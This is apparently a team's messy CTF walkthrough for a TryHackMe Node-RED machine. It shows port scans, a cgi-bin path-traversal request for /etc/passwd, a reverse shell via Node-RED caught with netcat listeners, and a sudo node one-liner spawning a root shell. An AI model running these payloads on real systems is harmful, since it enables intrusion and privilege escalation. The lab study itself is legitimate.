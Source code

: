 # CTF_TryHackMe_Machine_Violet_Team
This repository contains our notes, exploits, and strategies for solving the CTF machine on TryHackMe. Our goal is to document the attack process, share knowledge, and improve our cybersecurity skills as a team. 🚀💀
#First Commands and Initial Questions
Here are the first six questions we encountered and the initial commands we used to begin our enumeration:


┌──(kali㉿kali)-[~]
└─$ nmap -v -A -sC -Pn 10.10.26.176 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 14:01 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:01
Completed NSE at 14:01, 0.00s elapsed
Initiating NSE at 14:01
Completed NSE at 14:01, 0.00s elapsed
Initiating NSE at 14:01
Completed NSE at 14:01, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 14:01
Completed Parallel DNS resolution of 1 host. at 14:01, 0.01s elapsed
Initiating SYN Stealth Scan at 14:01
Scanning 10.10.26.176 [65535 ports]
Discovered open port 22/tcp on 10.10.26.176
Discovered open port 80/tcp on 10.10.26.176
SYN Stealth Scan Timing: About 39.27% done; ETC: 14:03 (0:00:48 remaining)
Discovered open port 1880/tcp on 10.10.26.176
Completed SYN Stealth Scan at 14:03, 73.93s elapsed (65535 total ports)
Initiating Service scan at 14:03
Scanning 3 services on 10.10.26.176
Completed Service scan at 14:03, 12.67s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 10.10.26.176
Initiating Traceroute at 14:03
Completed Traceroute at 14:03, 0.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 14:03
Completed Parallel DNS resolution of 2 hosts. at 14:03, 0.09s elapsed
NSE: Script scanning 10.10.26.176.
Initiating NSE at 14:03
Completed NSE at 14:03, 1.93s elapsed
Initiating NSE at 14:03
Completed NSE at 14:03, 0.21s elapsed
Initiating NSE at 14:03
Completed NSE at 14:03, 0.00s elapsed
Nmap scan report for 10.10.26.176
Host is up (0.054s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
1880/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 818DD6AFD0D0F9433B21774F89665EEA
|_http-title: Node-RED
|_http-cors: GET POST PUT DELETE
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Uptime guess: 6.023 days (since Wed Mar 26 13:30:08 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 9979/tcp)
HOP RTT      ADDRESS
1   93.27 ms 10.8.0.1
2   93.19 ms 10.10.26.176

NSE: Script Post-scanning.
Initiating NSE at 14:03
Completed NSE at 14:03, 0.00s elapsed
Initiating NSE at 14:03
Completed NSE at 14:03, 0.00s elapsed
Initiating NSE at 14:03
Completed NSE at 14:03, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.95 seconds
           Raw packets sent: 68506 (3.015MB) | Rcvd: 68237 (2.730MB)

# Se busca la vulnearvilidad de puerto 1880

# Se realiza scaneo atreves de Nessus encontrando una vulnerabilidad del 9.8 en Apache. Se genera captura

# Se encuentra ka vulnerabilidad y e procede a explotarlas 

curl -v --path-as-is "http://10.10.227.121/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" no existen vulnerabilidades se intenta por el puerto 1880

curl -v http://10.10.227.121:1880/

*   Trying 10.10.227.121:1880...
* Connected to 10.10.227.121 (10.10.227.121) port 1880
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.10.227.121:1880
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Access-Control-Allow-Origin: *
< Content-Type: text/html; charset=utf-8
< Content-Length: 1710
< ETag: W/"6ae-I+dCfUdVI8zgYXFq+9pylEoBEC4"
< Date: Tue, 01 Apr 2025 23:57:12 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge" />
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0"/>
<meta name="apple-mobile-web-app-capable" content="yes">
<meta name="mobile-web-app-capable" content="yes">
<!--
  Copyright OpenJS Foundation and other contributors, https://openjsf.org/

  Licensed under the Apache License, Version 2.0 (the "License");
  you may not use this file except in compliance with the License.
  You may obtain a copy of the License at

  http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<title>Node-RED</title>
<link rel="icon" type="image/png" href="favicon.ico">
<link rel="mask-icon" href="red&#x2F;images&#x2F;node-red-icon-black.svg" color="#8f0000">
<link rel="stylesheet" href="vendor/jquery/css/base/jquery-ui.min.css?v=3.0.2">
<link rel="stylesheet" href="vendor/font-awesome/css/font-awesome.min.css?v=3.0.2">
<link rel="stylesheet" href="red/style.min.css?v=3.0.2">
<link rel="stylesheet" href="vendor/monaco/style.css?v=3.0.2">
</head>
<body spellcheck="false">
<div id="red-ui-editor"></div>
<script src="vendor/vendor.js?v=3.0.2"></script>
<script src="vendor&#x2F;monaco&#x2F;monaco-bootstrap.js?v=3.0.2"></script>
<script src="red&#x2F;red.min.js?v=3.0.2"></script>
<script src="red&#x2F;main.min.js?v=3.0.2"></script>


</body>
</html>
* Connection #0 to host 10.10.227.121 left intact

┌──(root㉿maritrini)-[/home/kali]
└─# whatweb 10.10.16.249                                                                                  
http://192.168.1.69 [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.1.69], Title[Apache2 Debian Default Page: It works]
python CVE-2023-48795.py --ip 10.10.215.49
nmap -p- 10.10.215.49
nmap -v -A -sC -Pn 10.10.215.49 -p

# Hacemos un gobustar

gobuster dir -u http://10.10.215.49 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.215.49
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10701]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
                                                    
curl -X GET http://10.10.215.49/.htaccess
curl -X GET http://10.10.215.49/.htpasswd

Zero | Challenge

<IP_ADDRESS>
 From Base64, From Base85, From Hex, From Hexdump
<span data-toggle='tooltip' data-container='body' title='The data could be a valid UTF8 string

ping -T timestamp 10.10.49.2

Después de muchos intentos miralos la posibilidad de NODE RED y encontramos entrando en http://10.10.49.2:1880/#flow/7235b2e6.4cdb9c encontramos NODE RED para su explotación y escucha

Seguimos los pasos de un tutorial https://wiki.delicioushack.com/vulnyx-writeups/node-ctf-writeup-es

arp-scan -l | grep "08"   y como no tenemos privilegios nos elevamos a root 

Hacemos un nmap Para la enumeración de servicios y puertos
nmap -sCV -p- -n --min-rate=4500 10.10.49.2 -oG nmap

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-02 18:20 EDT
Nmap scan report for 192.168.193.1
Host is up (0.0011s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
135/tcp   open  msrpc      Microsoft Windows RPC
3306/tcp  open  mysql      MySQL (unauthorized)
7680/tcp  open  pando-pub?
33060/tcp open  mysqlx     MySQL X protocol listener
MAC Address: 00:50:56:C0:00:08 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.03 seconds

wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.49.2/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -z list,html-php-css-js -u 10.10.49.2/FUZZ.FUZ2Z

http://10.10.49.222:1880/#flow/7235b2e6.4cdb9c

EN NODE RED SE CONECTAN EL tcp in de nuestra maquina conececta a través del puerto 3333 con el exe de nuestra maquina y esta se conecta con la maquina final atraves del puerto 6969 teniendo abiertos dos puertos de escucha atraves de netca

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.8.53.76] from (UNKNOWN) [10.10.49.222] 47528

hacer intro para conectar a la otra terminal de escucha

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.8.53.76] from (UNKNOWN) [10.10.49.222] 34776
ls
crack_pass
user.txt
ls -la
total 56
drwx------ 5 dev  dev   4096 abr  1 17:56 .
drwxr-xr-x 3 root root  4096 abr  1 17:56 ..
lrwxrwxrwx 1 root root     9 abr 23  2023 .bash_history -> /dev/null
-rw------- 1 dev  dev    220 ene 15  2023 .bash_logout
-rw------- 1 dev  dev   3526 ene 15  2023 .bashrc
-rwxr-xr-x 1 dev  dev  14416 abr  1 17:53 crack_pass
drwxr-xr-x 3 dev  dev   4096 may 16  2023 .local
drwxr-xr-x 4 dev  dev   4096 abr  3 10:54 .node-red
drwxr-xr-x 3 dev  dev   4096 may 16  2023 .npm
-rw------- 1 dev  dev    807 ene 15  2023 .profile
-rw-r--r-- 1 dev  dev     66 may 16  2023 .selected_editor
-r-------- 1 dev  dev     66 abr  1 15:49 user.txt

elevamos privilegios a root para poder abrir los archivos de root
sudo -l
Matching Defaults entries for dev on node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dev may run the following commands on node:
    (root) NOPASSWD: /usr/bin/node
el resultado nos indica que el usuario <dev> tiene permisos para ejecutar el comando /usr/bin/node como root sin necesidad de proporcionar una contraseña

sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
id;whoami            
uid=0(root) gid=0(root) grupos=0(root)
rootuid=0(root) gid=0(root) grupos=0(root)
root
al abrir el archivo user.txt nos da una cadena hexadecimal, se prueba en CIBERCHEF 
cat user.txt
# "flag_user"

FLAG DE USUARIO


seguimos buscando para encontrar la del root

cd ..
ls -la
total 68
drwxr-xr-x  18 root root  4096 may 16  2023 .
drwxr-xr-x  18 root root  4096 may 16  2023 ..
lrwxrwxrwx   1 root root     7 ene 15  2023 bin -> usr/bin
drwxr-xr-x   3 root root  4096 may 16  2023 boot
drwxr-xr-x  16 root root  2980 abr  3 08:49 dev
drwxr-xr-x  73 root root  4096 abr  3 11:25 etc
drwxr-xr-x   3 root root  4096 abr  1 17:56 home
lrwxrwxrwx   1 root root    31 may 16  2023 initrd.img -> boot/initrd.img-5.10.0-23-amd64
lrwxrwxrwx   1 root root    31 may 16  2023 initrd.img.old -> boot/initrd.img-5.10.0-21-amd64
lrwxrwxrwx   1 root root     7 ene 15  2023 lib -> usr/lib
lrwxrwxrwx   1 root root     9 ene 15  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 ene 15  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 ene 15  2023 libx32 -> usr/libx32
drwx------   2 root root 16384 ene 15  2023 lost+found
drwxr-xr-x   3 root root  4096 ene 15  2023 media
drwxr-xr-x   2 root root  4096 ene 15  2023 mnt
drwxr-xr-x   2 root root  4096 ene 15  2023 opt
dr-xr-xr-x 133 root root     0 abr  3 08:49 proc
drwx------   5 root root  4096 abr  1 15:59 root
drwxr-xr-x  18 root root   520 abr  3 08:50 run
lrwxrwxrwx   1 root root     8 ene 15  2023 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 ene 15  2023 srv
dr-xr-xr-x  13 root root     0 abr  3 08:49 sys
drwxrwxrwt  10 root root  4096 abr  3 08:50 tmp
drwxr-xr-x  14 root root  4096 ene 15  2023 usr
drwxr-xr-x  12 root root  4096 may 16  2023 var
lrwxrwxrwx   1 root root    28 may 16  2023 vmlinuz -> boot/vmlinuz-5.10.0-23-amd64
lrwxrwxrwx   1 root root    28 may 16  2023 vmlinuz.old -> boot/vmlinuz-5.10.0-21-amd64
cd /root
ls -la
total 40
drwx------  5 root root 4096 abr  1 15:59 .
drwxr-xr-x 18 root root 4096 may 16  2023 ..
lrwxrwxrwx  1 root root    9 abr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 ene 15  2023 .bashrc
drw-------  3 root root 4096 ene 15  2023 .local
drwxr-xr-x  4 root root 4096 may 16  2023 .node-red
drwxr-xr-x  4 dev  root 4096 may 16  2023 .npm
-rw-------  1 root root   39 may 16  2023 .npmrc
-rw-------  1 root root  161 jul  9  2019 .profile
-rw-r--r--  1 root root   37 abr  1 15:56 root.txt
-rw-r--r--  1 root root   66 may 16  2023 .selected_editor
Nos llama la atención el archivo root.xt y procedemos a su apertura

cat root.txt y nos da una flag 
# "flag_root"
 PROBAMOS CON UN echo y nos lanza la FLAG de root

echo "flag_root" | base64 --decode






          
